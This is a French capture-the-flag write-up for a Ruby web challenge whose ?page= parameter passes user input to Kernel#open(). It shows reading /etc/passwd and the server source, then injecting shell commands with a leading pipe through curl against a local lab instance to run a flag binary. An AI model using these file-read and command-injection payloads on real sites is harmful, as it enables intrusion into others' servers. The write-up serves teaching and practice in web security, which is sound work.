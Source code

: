 # Pipe Guide

## Description

Vous trouverez ici mon tout premier site sur les tubes! Je suis très passionné par les tubes ...

http://127.0.0.1:6009

## Solution

Le but de ce défi était de démontrer les mauvaises utilisations de la fonction Kernel#open().

En visitant le site web, on peut remarquer le paramètre `?page=home.html`, qui sous-entend
que ce site est peut-être vulnérable à de la lecture arbitraire de fichier.

On peut tester cette hypothèse en visitant http://127.0.0.1:6009/?page=/etc/passwd, qui nous
permet d'exfiltrer le contenu du fichier /etc/passwd sur le serveur.

On peut aussi remarquer le commentaire HTML dans le bas de la page :
```
  <!-- My website source code : /?page=web.rb -->
```

qui nous permet de lire le code source du serveur.

La fonction Kernel#open() permet d'ouvrir un fichier en lecture/écriture. En lisant la
[documentation](https://ruby-doc.org/core-2.6.3/Kernel.html#method-i-open) de la fonction, on apprend que open() peut aussi être utilisé pour faire une copie du processus courant (fork) et d'exécuter des commandes quand le fichier à ouvrir commence par un `|`.

Ainsi on peut trouver et exécuter le fichier qui va nous donner le flag :
```
$ curl 'http://127.0.0.1:6009/?page=|ls%20-lah%20/'
total 96K
drwxr-xr-x   1 root root 4.0K Aug 14 19:20 .
drwxr-xr-x   1 root root 4.0K Aug 14 19:20 ..
-rwxr-xr-x   1 root root    0 Aug 14 19:20 .dockerenv
drwxr-xr-x   1 root root 4.0K May  4  2018 bin
drwxr-xr-x   2 root root 4.0K Feb 23  2018 boot
drwxr-xr-x   5 root root  340 Aug 14 19:33 dev
drwxr-xr-x   1 root root 4.0K Aug 14 19:20 etc
---s--x--x   1 root root  17K Aug 14 19:20 ex3cute_m3_to_g3t_th3_fl4g
drwxr-xr-x   2 root root 4.0K Feb 23  2018 home
drwxr-xr-x   1 root root 4.0K May  4  2018 lib
drwxr-xr-x   2 root root 4.0K Apr 26  2018 lib64
drwxr-xr-x   2 root root 4.0K Apr 26  2018 media
drwxr-xr-x   2 root root 4.0K Apr 26  2018 mnt
drwxr-xr-x   2 root root 4.0K Apr 26  2018 opt
dr-xr-xr-x 183 root root    0 Aug 14 19:33 proc
drwx------   1 root root 4.0K May  5  2018 root
drwxr-xr-x   4 root root 4.0K Apr 26  2018 run
drwxr-xr-x   1 root root 4.0K May  4  2018 sbin
drwxr-xr-x   2 root root 4.0K Apr 26  2018 srv
-rw-r--r--   1 root root  311 May  6  2018 startup.sh
dr-xr-xr-x  13 root root    0 Aug 14 19:03 sys
drwxrwxrwt   1 root root 4.0K Aug 14 19:20 tmp
drwxr-xr-x   1 root root 4.0K May  6  2018 usr
drwxr-xr-x   1 root root 4.0K Apr 26  2018 var

$ curl 'http://127.0.0.1:6009/?page=|/ex3cute_m3_to_g3t_th3_fl4g'
flag{open()==fork()==system()}
```

## Flag

`flag{open()==fork()==system()}`

